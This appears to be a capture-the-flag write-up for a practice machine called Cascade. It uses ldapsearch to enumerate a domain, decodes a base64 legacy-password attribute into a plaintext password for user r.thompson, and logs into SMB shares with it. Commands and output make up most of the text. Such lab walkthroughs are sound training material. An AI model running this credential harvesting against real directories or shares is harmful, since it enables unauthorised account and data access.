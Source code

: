 
### Ldap enumeration

We will use ldapsearch to further extend out enumeration as port 3268 is open for ldap.

running `ldapsearch -x -h cascade.htb -b "dc=CASCADE,dc=local"` we get back a long list of results. The one particular thing that stuck out was an attribute called `cascadeLegacyPwd`. There is also a base64 string next to it.

```bash
cascadeLegacyPwd: clk0bjVldmE=
```

We decode this from base64 using the command line and we get what seems to be a password. Based on the atttribute name it sounds like a password.

```bash
➜  cascade echo "clk0bjVldmE=" | base64 -d
rY4n5eva
```

Since this section was found under the user `r.thompson` in the ldapsearch we will use this user.
```bash
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
```

### Enumerating smb shares as r.thompson

We can confrim that theese credentials work when we list smb shares as the user with his password.

```bash
➜  cascade smbclient -L cascade.htb -U r.thompson                    
Enter WORKGROUP\r.thompson's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Now we know that the creds are correct we will login as him and enumerate further.

```bash
➜  cascade smbclient -L cascade.htb -U r.thompson                    
Enter WORKGROUP\r.thompson's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
➜  cascade smbclient  //cascade.htb/Data -U r.thompson
Enter WORKGROUP\r.thompson's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 22:27:34 2020
```